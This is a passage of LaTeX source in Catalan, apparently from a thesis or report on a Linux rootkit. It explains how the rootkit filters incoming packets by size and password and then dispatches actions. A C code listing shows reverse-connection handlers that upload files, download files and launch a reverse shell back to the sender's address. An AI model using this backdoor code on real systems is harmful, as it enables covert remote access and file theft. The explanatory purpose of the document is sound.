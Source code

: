 La primera comprovació que es fa, és la del tamany de paquet. Si el tamany de paquet rebut no és exactament
la dels nostres paquets, aquest paquet ja pot ser descartat. Gràcies a això, podem descartar la majoria de 
paquets que no van destinats al rootkit. En cas que un paquet ocupi exactament com els nostres paquets, 
caldrà comprobar si es tracta d'un paquet autenticat amb la contrasenya correcte o si es tracta d'una 
comprovació per veure si el rootkit es troba instal·lat.
(independentment de conèixer la contrasenya o no). \\

Un cop ens arribi un paquet autenticat, d'aquest se li extreu el tipus d'acció a portar a terme, i s'executa.

\subsubsection{Mode de comunicació REV}
En cas que en el paquet rebut sol·liciti realitzar una acció de tipus inversa, el primer que caldrà fer
és establir una connexió amb l'origen del paquet. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] REVUPLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse uploading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_upload(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVDOWNLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse downloading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_download(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVSHELL:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Launching reverse shell]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_shell(sock, sock);
        close(sock);
    }
    @PYay[break];
\end{Verbatim}
    \caption{launcher.c::do\_action()}
    \label{fig:launcer_do_rev_action}
\end{figure}

